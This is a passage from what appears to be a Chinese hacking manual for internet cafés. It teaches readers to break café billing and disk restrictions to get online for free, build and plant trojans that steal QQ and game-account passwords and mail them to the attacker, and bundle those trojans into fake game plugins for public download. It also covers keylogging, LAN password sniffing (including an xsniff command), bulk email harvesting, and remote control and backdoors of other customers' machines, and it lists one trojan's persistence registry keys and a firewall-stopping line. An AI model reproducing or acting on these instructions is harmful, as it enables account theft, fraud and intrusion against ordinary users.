1. 第一就是“开始”菜单的选项，仅仅保留了“注销”、“关闭计算机”、“程序”三项。并且“程序”中列举的就“游戏”、“聊天软件”、“Microsoft Office 2003”三个可有可无的东东（图 3.34）。
2. 第二就是“显示属性”。右键单击桌面，选“属性”，打开“显示属性”对话框。看看吧，对话框是打开了，不过我们什么都不能做（图 3.35）。
3. 第三是“硬盘封锁”。打开“我的电脑”看了一下，就三个盘（图 3.36）：“本地磁盘（E:）”、“DVD 驱动器（F:）”、“SYSTEM（Z:）”。本来以为“SYSTEM（Z:）”是系统盘，不过打开后却发现它里面竟然什么文件都没有，是个空盘。“本地磁盘（E:）”里全是网络游戏文件，其他有用的文件却没有。
4. 第四是关于“PUBWIN”的。右键单击 PUBWIN 在系统托盘的图标，出现 PUBWIN 的快捷菜单，一看选项，上面的几个选项比较熟悉。不过我在最下边发现多了一个选项，仔细一看竟然是“逃费上网的点我！”（图 3.37）。什么意思？难道是网管早就发现有人会利用管理员密码来逃费上网？没管那么多，直接点选“系统设置”，出现如图 3.38 所示的口令验证对话框，问：“你想干什么？”，选项：1.“逃费上网”；2.“还是算了”。


看来这家网吧的网管也不是个省油的灯，对网吧的网络安全也下了不少工夫，而且也取得了一定的成效，至少也会吓倒不少的菜鸟朋友。不过，这次他遇到的可是我战神 MARS，就该他倒霉了。我可不会被他的这些限制给吓倒的，我讲一下我的破解思路。

首先要破解的就是对于硬盘的封锁，因为许多东西我们要从硬盘着手。以前突破网吧硬盘封锁的方法，大多都是使用 QQ 的传文件、邮箱的附件功能、IE 的“浏览系统文件功能”等等。不过在这家网吧却不太管用。在“计算机管理”里转悠了半天，我发现了一个方法可以轻松地破解硬盘的封锁，实现对网吧硬盘资源的完全访问。

右键单击“我的电脑”，选择“属性”，打开“计算机管理”窗口，展开“计算机管理（本地）”下的“存储”，有一个项目叫“磁盘管理”，点开后就可以打开系统的磁盘。看吧，C:、D:、E:。下面就可以利用这个“磁盘管理”功能来访问系统资源了。以 C: 为例，我们右键单击“SYSTEM（C:）”，选择“打开”（图 3.39），就可以打开 C 盘了，文件是不是很齐全啊（图 3.40）！


图 3.39


图 3.40

右键单击“SYSTEM（C:）”，选择“资源管理”，就可以打开如同“资源管理器”的窗口。我在其中找到了 PUBWIN 的安装路径（图 3.41），竟然是 `c:\pubwin\pubwin.exe`，当然不会是默认的 `C:\Program Files\Public\pubwin.exe` 了。

对于上面提到的 PUBWIN 系统设置的问题，大家也不必过分担心，那只是网管用来吓唬人的小手段而已。他只不过是使用一些资源修改工具（如 Resource Hacker）修改了 PUBWIN 的一些项目、菜单的名称而已，并非是网管可以完全掌控我们。以前经常会接触到用资源修改工具来修改某某软件的版本、作者信息等等，今天头一回见到网管修改 PUBWIN，玩黑又不是一天两天了，他想吓唬谁呀？


图 3.41

下面来破解 PUBWIN 的管理员密码。这次我们要使用的工具是 pubwin4 破解精灵 V2005。打开程序的主界面（图 3.42），点击“跳过管理密码验证—获取网吧管理密码”，就可以利用空密码来进入 PUBWIN 的“系统设置”，然后我们就可以使用“星号密码查看器”来读取管理员密码了。pubwin4 破解精灵 V2005 已经集成了“星号密码查看器”，使用起来很方便。系统设置的密码验证对话框也还原了（图 3.43）。


图 3.42


图 3.43

我们接着来破解，要使用的工具是精锐网吧辅助工具 V5.0。这可是网吧小黑在网吧用以解除限制的利器，功能十分强大。打开精锐网吧辅助工具的主界面，进入“限制恢复”标签，上面有一个功能键“恢复并立即生效”（图 3.44），只要点击，就可以清除网吧多数限制。只是桌面上的图标要消失几秒钟，然后就会打开“我的文档”窗口（图 3.45），就可以访问系统资源了。来看看“开始”菜单（图 3.46）和“桌面显示属性”窗口（图 3.47），刚才的限制基本上都已经解除了吧！工具大家都会使用，但是不一定用得精、用得巧。这个功能键，你用过没有。


图 3.44

我还发现不论是 PUBWIN 4.3 还是万象 2004 都可以被它破解掉。如果你们那边的网管软件使用的是 PUBWIN 4.3 或万象 2004，你就可以利用这一个功能键来免费上网了。


图 3.45


图 3.46


图 3.47

## 第4章 网吧盗号没商量

### 4.1 QQ 任我连环盗

放眼全国大大小小的网吧电脑，几乎所有电脑上都会有一个相同的图标：小企鹅。这是一款叫做腾讯 QQ 的即时通讯软件。记得几年前腾讯的老总马化腾曾经谈及他的一个愿望时说道：“我希望每一个上网的网民开机后的第一件事情就是登录 QQ！”我想现在他的愿望已经基本实现了。

QQ 从它诞生到现在已经有好些年了，版本也不知道换了多少。现在 QQ 又推出了最新的 QQ2006。QQ 的安全性越来越好，提供的服务也越来越多。什么 QQ 宠物、QQ 秀、QQ 空间、QQ 炫铃、QQ 相册等等。而且有自己的网络货币 Q 币，许多服务都要收取费用。刚开始的时候 Q 币同我们的 RMB 是等价的。可是，QQ 靓号不好申请，许多服务需要 Money，穷学生该怎么办呢？还是想点别的方法来弄几个好的 QQ 号，窃取别人的 QQ 币来免费享受 QQ 的服务吧。

下面就讲一下如何在网吧盗取别人的 QQ 号。

#### 4.1.1 木马软件

盗 QQ 当然要用到木马，使用最多的要数啊拉 QQ 大盗了。为什么要用啊拉 QQ 大盗呢？本来 QQ 盗号工具已经满天飞了，可是自从腾讯推出了 QQ2005 BETA 3 版本以后，所有键盘记录型 QQ 盗号工具就一下子哑了炮，因为 QQ2005 BETA 3 采用了据说是国际先进的键盘加密保护技术“nProtect”。启动 QQ2005 BETA 3 之后，此时在 QQ 的登录界面就会发现一把金色的安全锁，如图 4.1。

当你敲击键盘输入 QQ 密码的时候，键盘加密保护组件就会自动地对你输入的键盘信息进行实时加密。这样一来，即使我们的机器上有键盘记录程序，也难以窃取我们的 QQ 密码。


图 4.1

“淘尽狂沙始见金”，啊拉 QQ 大盗在 QQ2005 BETA 3 就推出了可以通杀 QQ2005 BETA 3 的版本。原理是：它先破坏掉“nProtect”加密组件，然后再进行键盘记录。这样 QQ2005 BETA 3 就失去了键盘加密的保护，同以前的版本没有多大区别了。

现在知道我们为什么要用啊拉 QQ 大盗了吧。今天我带来的是啊拉最新的版本。2006 年 2 月 10 日更新，通过卡巴、江民、瑞星、金山等杀毒软件最新病毒库的检测。一般网吧的 QQ 程序更新的速度比较慢，这也算是网吧的一个 bug，我们可以利用这个缺陷来窃取QQ密码。不过话说回来，就算网吧的QQ程序更新的速度再快，我们只要去啊拉的主页下载最新的盗号程序就可以搞定。啊拉的作者很勤奋，随着QQ更换版本也推出新的QQ大盗。废话不多讲了，看看啊拉的使用方法：软件提供了两种收信模式——邮箱收信和网站收信。先看看邮箱收信模式吧，如图4.2。

第一，先填入收信箱。啊拉提供了靓号和普通号可以使用不同的信箱接收的功能，真是周到啊。因为如果盗取了许多的QQ号之后，就对大量的普通号没有了兴趣，也懒得去收了。靓号和普通号分开收，多方便。感谢啊拉的作者！再填入发信箱，软件只提供 smtp.126.com、smtp.163.com、smtp.21cn.com、smtp.tom.com、smtp.citiz.net 五个服务器的邮箱，不过这些也已经足够了。

填入上面的两项后，可以点击“测试邮箱”按钮，如果一切填写正确的话就可以收到啊拉发给你的测试信。建议生成木马前还是测试一下，“安全”第一啊！


第二，高级设置里有八个选项：运行后关闭QQ；过滤重复号码；显示IP/物理地址；显示在线状态；安装后删除自身；彻底摧毁防火墙；显示是否是会员；还原精灵自动转存。“安装后删除自身”和“过滤重复号码”建议一定选上。“运行后关闭QQ”后面可以设置时间。但是QQ非正常的关闭，往往会引起别人的警惕，自己看着办好了。剩下的五个选项根据自己的实际情况进行设定。


第三，自定义图标：可以选择图片、文本、游戏三种图标。一切都设置好后，就可以点击“生成木马”按钮来生成小马了，选择保存路径保存。下面看看“网站收信”模式，如图4.3。

在“ASP接口地址”中输入自己的空间地址。然后点击“测试网址”测试一下。将程序附带的 tmdqq.asp 这个文件上传到你的空间，然后把网址填到上面，网站收到密码后会将其保存在同一目录下的 qq.txt 文件中。“高级设置”和“自定义图标”同邮箱收信模式是一样的设置方法。同样，点击“生成木马”，生成小马就可以了。

#### 4.1.2 种植者

小马生成了，我们怎么让人运行呢？下面教大家如何种植木马。请出我们的种植者：啊D网络工具包V2.02，这是一款功能超级强大的工具包。有IP端口扫描、端口扫描、网卡MAC、PING、主机查找、网络状态、路由查看、肉鸡查找、共享查找、进程查看等功能。这节我们仅仅介绍它的种植木马功能。打开啊D网络工具包V2.02，程序主界面如图4.4所示。


图4.4


图4.5

选择上面的杂务→NT机专用→木马种植机，如图4.5。打开“木马(IPC)种植机！”窗口，如图4.6。


图4.6

填入要种植小马的主机的IP地址。这里我填的是192.168.0.128，用户名为 Administrator，密码为空。

网吧的电脑为了使用方便，通常设置的都是用户名 administrator，密码为空。然后在“本地文件”浏览选择我们的木马文件，以 alalqq.exe 为例。“复制位置”中选择远程种植的路径。一般可以先检测对方的共享，然后种植在里面。先用“检测共享”来检测远程主机的共享吧。然后在“执行命令”里填入命令“执行”，就可以了。

#### 4.1.3 限制下种马

网管软件的使用方法是一个大的问题。一般网吧的网管为了方便，会允许网民在客户机中无限制地换机，因为有的机子可能不好用，或者是位置不好。例如万象2004，右击万象在系统托盘的图标，在弹出的菜单中选择“换机”，网管软件会自动将机子锁定。等下一个人来就可以直接用帐号密码登录，被锁定的机子很长时间是不会重启的，而且我们可以无限制地换机。这样我们就可以利用这一 BUG 来种马。如果你所在的网吧装有还原卡或者你没有将还原精灵破解掉，就可以在本机种下我们的啊拉QQ大盗，隐藏和安装运行好后换机。然后就可以等着收取QQ密码了。

#### 4.1.4 网吧批量种马

如果将还原精灵、还原卡破解掉，就可以在网吧轻松地批量种马了，这样我们的QQ号就会源源不断了。我们可以直接将啊拉QQ大盗在网吧的机子上安装，然后用还原精灵转存。不过直接安装很不安全。我们需要隐藏木马。

为了安全，可以将木马和系统的一个常用的程序捆绑在一起。这样对方一运行那个程序就会启动啊拉QQ大盗了。下面向大家介绍一款比较实用的捆绑软件 GWBinder2002。Binder2002 是由曾经红极一时的户外女生网络小组开发的，支持多文件的捆绑。

在“要捆绑文件的列表”中点击右键，在弹出的菜单中选择“添加捆绑文件”命令添加需要捆绑的文件，然后点击“设置”菜单中的“选择图标”命令，选择你喜欢的图标，软件只能选择图标文件（*.ico）。用户还可以对捆绑文件运行后分解的文件夹进行设置，包括“解绑于TEMP”“解绑于WINDOWS”“解绑于SYSTEM”。

此外，我们还可以将木马打造成免杀的小马，可以直接在机子安装了，不过建议最好找个比较隐藏的目录。

## 4.1.5 QQ暴力破解器

我带来的是“QQ蜗牛破解器 v200508”版，程序的主界面如图4.7。

填上要破解的QQ号码，选择好QQ路径，点开始就可以进行暴力破解了。暴力破解，一般破解的是密码比较简单的QQ。程序原理是利用自己的密码文件的密码列表逐一猜测要破解的QQ的密码。我们可以用程序自带的密码文件，也可以自己编辑或用自己的字典。点击“弱口令生成”按钮，即可生成弱口令。但是软件只支持 QQ2005，注意在开始破解的时候，要先关了QQ，并且只执行这一个破解任务。


### 4.2 网游号码任我玩

#### 4.2.1 毁灭火影木马生成器

热血传奇虽然现在有点过时了，但是在祖国的各个地区还是有众多的 Fans，所以我针对菜鸟也讲解些盗取传奇的办法。其实很简单，对菜鸟来说，我们不讲那么多高深的理论知识，我们只要有效的、迅速的盗取游戏 ID 和密码的方法。

因为广大的菜鸟都是在网吧上网，所以我们离不开一个工具，那就是硬盘保护卡克星，本书里多次提到过，所以这里我就不细致地讲解了。首先把网吧的硬盘保护卡给破了，然后我们要做的是把“毁灭火影木马生成器”安装在本机上，如图4.8。


图4.8

但是要告诉大家的，不要把它只是简单地放到桌面上，那样你的这个小阴谋会很容易被别人看到的。你把这个木马在自己桌面设置好后会生成客户端的，起个好听的名字，并换个图标来掩饰下。这样你就可以轻松地去自己的信箱收 ID 和密码了，怎么样？很简单吧！


图4.9

#### 4.2.2 传奇木马潜伏者

方法和上面的一样，这里要告诉大家的是一定要记清自己的信箱等设置的原始资料，否则密码都进你的信箱了，可是你还找不到！其主界面如图4.9。

## 4.2.3 冰河盗帐号

盗游戏号很多小菜认为这个很高深，认为这个太难学，自己搞不懂。因为说盗号我们就离不开木马，而很多的木马就是要我们传到对方机器上去，而这个对小菜来说简直就是在开玩笑。其实，一切都很简单，不一定你要老老实实坐在你的机器上去给目标机器传木马！我们要坐到目标机器上，然后给它安装上木马，然后乖乖地等着别人来玩，这叫做“守机待号”！

要做到“守机待号”，必须首先把机器的还原装置给破了。这个机器装的还原卡，要是慢慢破解的话会很难的，拿出前面我们介绍过的“硬盘保护卡克星”。这个小东西就是那么的讨人喜欢。对付还原卡就是小意思！

- **使用工具**：冰河
- **盗取原理**：键盘记录。
- **操作场所**：网吧，最好是楼上楼下的那种。所以你最好去那些大点的网吧！
- **操作方法**：首先要下载冰河，我一般喜欢存在 `\WINDOWS\WEB\Wallpaper\` 里，因为比较隐蔽。

下载后就是运行冰河服务端 G_Server_XX。这只是埋下伏笔，在每台机器上运行过后，还要改一个东西，就是下载默认。你下载过后下一次下载的时候默认文件夹是 C:\WINDOWS\WEB\Wallpaper\，这怎么行呢？万一别人要下载的时候看见你下的东西怎么办，做到万无一失。你随便点一个有链接的字（右键），点目标另存为，随便找一个文件夹下载，OK 后关闭。就可以离开现场了。

不定时地关注刚才你操作的这台机器。看看你运行过冰河的机器有没有人在玩传奇，有的话就可以开工了。

你可以随便找一台机子，下一个冰河。为了下一次着想，你可以在这台机子上也运行冰河。打开冰河，扫描一下。看到你运行过冰河的机器了吧？接着打开屏幕监视，如果看不清楚的话，那是你的颜色没有设置好，因为传奇的颜色是256色的，所以你要用冰河控制版里面的屏幕监视。

点击窗口管理，刷新一下，找到传奇的窗口，点正常关闭。点“启动键盘记录”！发现他进去后，立刻点“终止键盘记录”了，然后成功地看到了用户 ID 和密码。赶紧进传奇，修改密码吧！


## 4.2.4 魔兽世界帐号任你盗

首先盗号者需要准备魔兽世界木马一只，这是最基本的了，所有账号密码都是由它来盗取了。魔兽世界木马种类也有很多种，有公开的也有没公开的，公开的魔兽世界木马在各大黑客网站都有下载，这里以魔兽杀手为例子给大家做介绍，界面如图4.10。

其中发信箱地址处填的就是我们接收账号密码的邮件地址，上面几项就是邮件服务器设置项。发信箱帐号就是你信箱的名字，比如我的是 sunwukong@163.com，这个发信箱帐号就是 sunwukong，密码就是自己的信箱密码！全部设置完后点击“生成程序”生成木马服务端。接下来就是最重要的环节了，如何让对方不知不觉中你的木马，这里将给大家讲解一种利用方式。

捆绑法，因为中魔兽世界木马的大部分都是魔兽世界玩家，我们可以把这个木马捆绑在魔兽世界插件上，然后向外界发布你这个捆绑了木马的插件说是最新插件，这样一定会有不少玩家依靠 baidu 和 google 找到你向各大网站发布的这个被动了手脚的插件，这样玩家就会在体验插件的同时毫无知觉地中魔兽世界木马。至于如何捆绑木马到其它程序上，这里可以用到一些专门的文件合并工具，这里我们选用水晶情缘开发的“EXE文件合并粉碎机”进行文件合并，软件界面如图4.11。


图4.11

把这两个程序选择进去，然后提取正常程序的图标点击开始合并，即可完成捆绑工作，接下来你就可以把捆绑好木马的程序到各大软件下载网站发布了。

#### 4.2.5 盗“边锋号”没商量

“边锋杀手”是一款边锋在线游戏密码的安全工具，支持边锋大厅2.03。

- **文件列表：**
- 资料设置文件——Benset.exe
- 密码监控文件——Benpao.exe
- 生成资料文件——Msread.dt
- 专用捆绑文件——Benbin.exe

##### 使用方法

- 1. 本机使用，先运行设置端程序（Benset.exe）进行设置，可以看到弹出提示，不过我们不用管它说什么。我们做自己的就行，点“我同意”就可以了。然后出现设置界面，如图4.12。

## 第4章 网吧经验及配置


是否保存密码文件在本地，建议大家最好不要保存。因为网络江湖里人多也杂得很，你不知道谁会给你改了啊！接下来是接收邮箱的类型，类型很多的，如图4.13。建议大家都用163的。


不要忘了，把邮箱身份验证设置写上去，用户名就是你的信箱163前面的名字，我的就是 sunwukong。都写好后，还有个要设置的就是右边的防修改设置，因为现在的菜鸟已经不是原来的菜鸟了。你如果在网吧的机器上安装了这个边锋杀手，没准被他们发现，把你的资料乱改了一气，那样你等一万年也等不来密码！

OK！全部设置完毕了！点确定，如图4.14。提示成功。


设置成功后按提示再运行密码监控端程序，如图4.15。密码监控端运行时，正常情况下不会出现任何提示和警告。最后为了保密请删除当前所有文件，而边锋杀手已经自动拷贝并在后台工作了。


捆绑使用。先运行设置端程序进行设置，具体的过程和上面的一样，我就不像师傅他老人家那样啰嗦了！完成后会在当前路径下生成一个资料文件：Msread.dt，如图4.16。之后可以利用自带的捆绑工具 BENBIN.EXE 对边锋杀手进行修饰捆绑，如图4.17。


会生成一个 SHOWGOOD 为名字的文件，如图4.18。只要别人运行了这个，那么他如果在玩边锋的话，他的号就是你的了！当然大家也可以把生成的这个发给目标。具体怎么发就看大家的水平了。

#### 4.2.6 多款游戏一起盗

蜜蜂大盗该木马为冰枫工作室制作，偷窃以下软件的密码：QQ、传奇、奇迹、千年、红月、倚天、决战、大话西游、石器时代、遗忘传说、DVAQ，并将密码发到指定信箱。先看下图4.19，是关于这款软件的介绍。


对你想要的密码进行勾选，你不选择的话这个软件是不会那么听话工作的，接着看图4.20。主要的设置项，按你的要求，自己填写就可以了，比较傻瓜，不用做过多的介绍。


然后看下图4.21，软件作者考虑到大家中了蜜蜂后会有严重影响，所以自己带来个清除这个木马的一项，是不是很人性化？

木马运行后会将自身复制到系统目录下，文件名保持不变，在系统安装目录中生成 isUn0404.exe、isUn0804.exe、isUninst.exe；在注册表主键 `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下添加键值 `"internet"="%SYSTEM%\\%VIRUSNAME%"`；对注册表主键 `HKLM\SOFTWARE\Classes\txtfile\shell\open\command` 修改键值 `"默认"="%SYSTEM%\\%VIRUSNAME%" "%1"`；在 `C:\Autoexec.bat` 中添加内容 `net stop "Internet Connection Firewall(ICF)/Internet Connection Sharing(ICS)" > C:\BOOTEX.LOG`。

木马运行后硬盘会狂运作，监听 UDP2222 端口，监视杀毒软件木马克星、瑞星。菜鸟们只要用前面介绍过的硬盘还原工具将你所在的机器的还原卡给破了，然后你把这个蜜蜂下到你本机的盘里！你就回去等着密码往你的信箱里自动发吧！


#### 4.2.7 密码监听器

密码监听器用于监听基于网页的邮箱密码、POP3收信密码、FTP登录密码以及一些网络游戏的密码等，只需在一台电脑上运行，就可以监听局域网内任意一台电脑登录网页邮箱、使用POP3收信以及其它登录的用户名和密码，并将密码显示、保存，或发送到用户指定的邮箱。1.3版本在 Windows 98 下运行更加隐蔽。1.4版本以后支持更多的密码监听，如一些网络游戏等。


下载该软件后，运行压缩包中的 `pswmonitor.exe` 文件，打开“密码监听器”的主界面，如图4.22。

首先单击：适配器→选项卡进行设置，选择要用于嗅探密码的网卡，如图4.23。设置自动通过邮件发送密码，点击“邮件”选项卡，如图4.24。

在“邮件发送与接收参数”功能区域设置好邮箱地址以及密码等信息，点击“测试”按钮。如果输入正确则会弹出一个提示框“测试邮件发送成功”。还可以在此设置自动将嗅探到的密码发送到指定的信箱，在“自动发送邮件设置”中，勾选“自动发送密码到指定的邮箱”，设置完了点“应用”就可以了。

点“保存”选项卡，如图4.25。勾选“自动保存”，这里还可以设置自动保存嗅探信息的时间间隔，并可以设置自动保存的缺省文件名，设置完毕后点“应用”就可以了。


为了自己操作的安全性，可以为软件设置查看密码，点“密码保护”选项卡，如图4.26。分别输入“新密码”和“确认密码”，然后点击“应用”按钮。这样在该软件被隐藏后，当需要再次显示其界面的时候就需要输入密码才能实现了。


经过以上设置后，切换到“正在监听”选项卡，点“隐藏”按钮开始监听密码。由于隐藏了界面，所以一切都在后台进行，一般是不容易被发现的。需要注意的是，要记住自己设置的密码保护密码和呼出热键，否则无法实现。

或者登录了网络游戏，那么会很快在“正在监听”选项卡里看到这些密码。并且密码会发到设置好的信箱里。

## 4.3 邮箱轻松任我蹂

### 4.3.1 “伊妹儿窃密者”1.01版使用说明

本软件可以盗取所有 E-mail 的账号和密码，适合网吧等公共场所，功能十分强大！这个软件叫窃密者，如图4.27。

软件的机理是先指定目标信箱登录所在页面的网址，当有人打开此页面登录信箱时，软件就自动记录键盘的输入，保存在与本软件相同目录下的 a.txt 文件中，通过分析就可以得出账号和密码，准确率高。


本软件运行后很隐蔽，在“关闭程序”中也不会显示，只有当前页是登录信箱所在的网页时按 Home 键才能关闭该程序。为提高隐蔽性，程序运行时打开 a.txt 文件将看不到记录内容！要想看只有当程序退出后才能看到！查看记录文件 a.txt 的说明：[Shift]代表 Shift 键，[BKSpace]代表退格键。

#### 4.3.2 利用嗅探工具捕获电子邮件

刚才给大家介绍的都是图形化工具，但是很多时候如果我们善于使用命令行工具，那么会更加方便。这次我就介绍个工具 X-Sniffer。X-Sniffer 是一款简易的命令行方式嗅探器软件，可截获局域网内使用 FTP/SMTP/POP3/HTTP 通信协议传输的信息（SMTP、POP3 就是电子邮件常用的通信协议）。在命令行状态下，运行 xsniff.exe，即可得到其使用帮助，如图4.28。


每次用命令行工具的时候，在桌面点它后，它都是一闪就没了，为什么？有些读者以为是工具的问题，其实不是这样的。命令行工具，顾名思义就是在命令行窗口下用的工具。以 X-Sniffer 为例子，基本所有的命令行工具都是这个样子的，如图4.29。当我们见到这样的软件的时候，就一定要记住把它复制到网吧的盘里，一般网吧有 C、D、E、F、G、H 盘。根据你的爱好，随便复制到一个盘里。比如复制到 E 盘里了，然后进入命令行窗口输入 **E:/**，然后回车，如图4.30。接下来你做的就是利用这个命令行发挥作用和威力了！


图4.29


图4.30

如果要在后台监听密码等信息，并生成一个日志文件，使用如下命令：

```bash
xsniff.exe -pass -hide -log pass.log
```

不过大家一定要记住，这个软件只用于 Win2000 系统。

#### 4.3.3 如何大量“窃取”E-mail 地址

- 1. 搜集网站邮件地址

通过扫描网页及相关链接的方式，不断搜索网页上公布的 E-mail 地址。建议使用“亿虎 E-mail 扫描大师”、“Fast E-mail Spider”和“商@海量邮箱窃取大师”。这些软件对收集行业邮件地址比较有用，建议先收集一些行业网站的网址。

以商@海量邮箱窃取大师为例，它是一套专门“窃取”某一域名下海量邮箱的网络邮箱收集工具。只要输入想要查找的邮箱所在的域名，如 @yahoo.com 等，系统便会采用多线程的工作方式自动从该域名所在的邮件服务器中提取邮件地址，速度奇快，最高可达 2000 个/分钟，正常速度也可以稳定在 1000 个/分钟左右。

另外，由于该系统采用了独特的“模拟手工发信技术”，所有搜到的邮箱地址都得到了实时的有效性检验，比较真实可靠。内置自感应邮件地址生成引擎和批量邮箱自动保持技术，又能最大限度地保证运行此程序时计算机的 CPU 和内存低消耗，特别适合长时间大批量邮件地址的搜集。

列表来选择所需要邮箱地址所属的域名，如图4.31。这里我先以 HOTMAIL 为例子，进行搜索一下，见图4.32。


图4.31


图4.32

可以看到速度十分地快，而且效果非常不错。也可以输入任何希望进行查找邮件地址操作的域名，然后单击工具栏上的“开始搜索”按钮。如果要停止搜索则单击“停止搜索”按钮。

单击域名选择框旁边的“高级搜索”按钮，系统主界面将会弹出一个系统配置窗口，如图3.33。


> 图3.33

可以设置搜索方式、DNS 服务器、搜索线程数量、连接超时等。

### 搜索方式共有2种：

- 1. 按用户名长度范围搜索。如果选择按这种方式搜索，系统自动从 abcdefghijklmnopqrstuvwxyz0123456789 这 37 个字符中随机选取指定长度的一个字符串作为用户名，并到所指定域名的邮件服务器进行核对，检验其有效性。
- 2. 按匹配字符串搜索。如果希望搜索某种样式的邮箱，选择这种方式。

## 第5章 大闹网吧

### 5.1 远程控制

在网吧里控制任意的一台机子，想干什么就干什么；用屏幕监控监视 PLMM 在网上都干些什么；与在网吧上网的同学开个玩笑，悄悄地将他的 QQ 关闭。这些事情在网吧小菜们想来可能是只有网络高手才能做到的事情。其实不然，利用一些软件我们网吧小菜也可以玩转网吧，在网吧实现远程监控，成为网吧的霸主。

#### 5.1.1 简单的内网远程控制

首先介绍简单的远程控制，用一些小工具我们就可以实现。简单的远程控制嘛，当然可以做的事情也不会很多。

### 1. RECTON2.0

WINDOWS2000 系统存在默认的共享，如果网管没有删除共享，也没有对端口进行限制的话，我们就可以利用 RECTON2.0 这一工具干许多事情。程序的主界面如图5.1。


图5.1


图5.2

只要你有一个远程主机的管理员密码，并且远程主机的 135 端口和 WMI 服务（默认启动）都开启，那么你就可以通过这个小程序远程开启 3389，远程开/关 telnet，远程运行 CMD 命令，远程清除所有日志，远程重启（图5.2就是它的远程菜单选项），查/杀进程，查看/启动/停止服务，查看/创建共享（图5.3为查看菜单选项）等。其不依赖远程主机的 IPC 是否开放。


图5.3

### 2. 啊D网络工具包

肉鸡查找功能。

利用“肉鸡查找”功能查找同一个网段 NT、WIN2K、XP 密码过于简单的主机，并且还有系统版本的识别功能。点击工具栏上的“肉鸡查找”标签，在“IP”栏输入要搜索的 IP 地址，点击扫描，就开始进行扫描，一会儿工夫就会显示出结果，如图5.4。


图5.4

##### 访问共享资源

利用此功能就可以查找局域网内所有的共享资源。点击“共享查找”，在右边窗口的“IP”栏输入要搜索的 IP 地址，点击“开始”查找，不久就会看到所有的共享资源。


图5.5

如图5.5。找到一个共享资源，右键点击选“映射”，选择本地的盘符，运气好的话一会儿就可以将共享资源映射到本机，我们就可以像访问本机资源一样进行访问了。

### 搜索MAC

使用“搜索MAC”功能就可以知道一家网吧中现在有多少台电脑开着。点击“搜索MAC”，设置好起止 IP，点击“读取”按钮，很快就会得到当前网段中正在线电脑的 IP 地址、用户名、工作组、网卡 MAC 了（图5.6）。

##### 3. SHED 1.01

如果只是想简单地查找共享，我们还可以使用 SHED 这一个工具。在起止 IP 中填入本网吧的起止 IP，点“开始”。SHED 查找共享资源的速度很快，一会儿就可以将一间网吧的共享资源查找完毕。查找完毕后，在“发现的共享资源”中就会列举所有搜索到的共享（图5.7），双击就可以打开。

##### 4. TELNET

在网吧远程开启对方的 TELNET 服务，就可以利用微软的远程管理协议来远程控制机器了。用上面的 RECTON 2.0 我们就可以打开远程主机的 TELNET 服务。

下面介绍一下 TELNET 远程登录协议。WINDOWS2000 SERVER 中提供 TELNET 服务器，利用 TELNET 服务器我们可以让用户从远程电脑上通过网络以及 TCP/IP 传输协议连接到服务器上，就像使用 BBS 系统一般，进而执行管理操作系统的指令。这样一来，即使不在电脑旁边，也可以对系统进行管理工作。


图5.6

但是，TELNET 无法执行视窗程序，例如：资源管理器、记事本等等。只能如过去的 MS-DOS 时代一样，使用文字模式来执行命令。因此，TELNET 服务器的主要定位还是在于利用它来管理系统以及执行网络相关控制指令。


图5.7

一般我们进行 telnet 远程登录的时候，都会碰到 NTLM 身份验证。NTLM，即 Windows NT 挑战/响应机制，Windows 系统默认使用的一种身份验证机制，一共分为三种方式：0，不使用 NTLM 身份验证；1，先尝试使用 NTLM 身份验证，如果失败，再使用用户名和密码来进行验证；2，只使用 NTLM 身份验证。网吧中的机子用户名和密码通常是相同的，所以就算要我们进行 NTLM 身份验证一般也没有问题。

当我们远程 telnet 到服务器时，其实有些像是在 WINDOWS2000 中打开一个“命令提示符”，所有可以在命令提示符中执行的命令，都可以通过远程连接来使用，所以说，就好像回到以前的 MS-DOS 时代一般。

下面讲一下用“计算机管理”功能来打开 TELNET 服务。步骤如下：

- 1. 右键单击“我的电脑”，选“管理”，打开“计算机管理”窗口。
- 2. 右键单击“计算机管理（本地）”，选择“连接到另一台计算机”（图5.8），在打开的“选择计算机”对话框中选定一台计算机（如“DONGAN”），即可远程管理该机。


- 3. 展开“DONGAN”的服务选项，找到 TELNET（默认一般为手动）。右键选择“属性”，将 TELNET 启动类型改为“自动”（图5.10）。确定后回到计算机管理窗口，再右键 TELNET 选择“启动”（图5.11），随后“服务控制”对话框会提示正在启动服务，稍后 TELNET 服务即开启。


### 5. WINDOWS2000 Professional 也开3389

网吧中客户机的操作系统一般是 WINDOWS2000 Professional（专业版），很少安装服务器（SERVER）版本。通常认为 WINDOWS2000 Professional 不支持 3389 终端服务，而 WINDOWS2000 Server 及以上版本才可安装终端；文中介绍了在 WINDOWS2000 环境下进行终端服务控制的方法。


这种情况下，我们只能够放弃安装终端的念头。不过事实上，我们只要在 Professional 的机子上安装一个小工具 NTswitch，就可以在 Professional 版本的机子上安装终端服务了。其实 WINDOWS2000 的各个版本都使用了同样的程序、动态连接库，它们之间最大的区别是在注册表中。

WINDOWS2000 三合一的光盘就说明了这一点。因此只要我们将 Professional 版注册表中的项目改为 Server 及以上版本，就可以在 Professional 版中安装终端服务了。我们利用工具将 NTswitch 上传到我们想控制的机器上，运行后就可以为它安装终端服务，可以用 3389 连接器来连接，像在本机操作一样方便地控制远程机器。程序主界面如图5.13，点击“go server”一会儿就安装成功了。不过要系统重启后设置才会生效。


#### 5.1.2 专业级的远程控制软件进行远程控制

要进行远程控制当然要用到后门。后门程序又称特洛伊木马，其用途在于潜伏在电脑中，从事搜集信息或便于黑客行动。后门是一种登录系统的方法，它不仅绕过系统已有的安全设置，而且还能挫败系统上各种增强的安全设置。后门可以按很多方式来分类，分类标准不同，结果也会很不同。我们可以按技术角度来考虑后门程序分类。

- 1. 网页后门。此类后门程序一般都是使用服务器上正常的 WEB 服务器来构造自己的连接方式，比如现在非常流行的 ASP、PHP、CGI 木马。
- 2. 线程插入型木马。利用系统自身的某个服务或进程，将后门程序插入到其中。
- 3. 扩展后门。在功能上有很大提升，利用许多插件可以实现非常多常见的安全功能，本身相当于一个小的安全工具包，但隐蔽性会变差。
- 4. C/S 后门。“客户端/服务端”式架构，可以方便地实现对私有肉鸡的控制。
- 5. root kit。系统级后门，是攻击者用来隐藏自己的踪迹和保留 root 访问权限的工具。

还有其他分类方式，如正向连接后门、反向连接后门，等等。下面介绍一款功能强大的远程控制软件：PCSHARE2005。

Pcshare2005 是虎盟（rohu.com）开发的远程控制软件，特点是客户端比较小，采用 HTTP 隧道方式进行反弹连接，功能比较齐全，程序主界面如图5.14。


图5.14

### 1、配置服务端

